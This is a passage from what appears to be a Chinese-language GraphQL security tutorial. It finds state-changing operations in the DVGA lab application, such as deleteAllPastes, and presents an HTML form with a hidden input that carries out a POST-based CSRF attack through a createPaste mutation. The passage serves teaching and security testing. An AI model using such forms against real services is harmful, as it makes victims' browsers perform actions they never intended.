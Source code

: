 这是返回列表的一个摘录：

```
{
  "name": "search"
},
{
  "name": "audits"
},
{
  "name": "deleteAllPastes"
}
`--snip--`
```

有没有哪个查询名称特别引人注目？列表中有几个潜在的状态变化查询，但 `deleteAllPastes` 尤为引人注意。一个删除所有粘贴的查询比查询更适合做为突变操作。然而，由于这个应用程序存在漏洞，它没有考虑到 CSRF 问题。

### 测试基于 POST 的漏洞

现在我们已经识别出一些状态变化的查询和突变，可以尝试构造一个 HTML 表单来利用它们。我们的攻击可能会诱使用户点击一个链接，该链接会将他们重定向到一个恶意网站，网站上包含像列表 9-3 中的表单。提交后，它将使用 `createPaste` 突变向 DVGA 发起一个 POST 请求。

```
<html>
  <h1>Click the button below to see the proof of concept!</h1>
  <body>
     <form id="auto_submit_form" method="POST" action="http://localhost:5013/graphql">
       <input type="hidden" name="query" value="mutation { createPaste(title:&quot;CSRF&quot;,
content:&quot;content&quot;,
public:true, burn: false) { paste { id content title burn } }}"/>
       <input type="submit" value="Submit">
     </form>
  </body>
<html>
```

列表 9-3：基于 HTML 表单的 POST 类型 CSRF 利用

我们使用 `method` 属性定义一个名为 `query` 的 POST 类型表单。该表单将向 DVGA 的 URL 发起请求，该 URL 定义在 `action` 属性中。你会注意到，我们还通过将 `type` 属性设置为 `hidden` 来定义一个隐藏的 `<input>` 标签。这确保了用于执行查询的表单对受害者来说是不可见的；它不会在他们的浏览器中显示。我们在 `value` 属性中对 GraphQL 突变进行编码并定义。该突变的解码版本如下：

```
mutation {
  createPaste(title: "CSRF", content: "content", public: true, burn: false) {
    paste {
      id
      content
      title
      burn
    }
  }
}
```
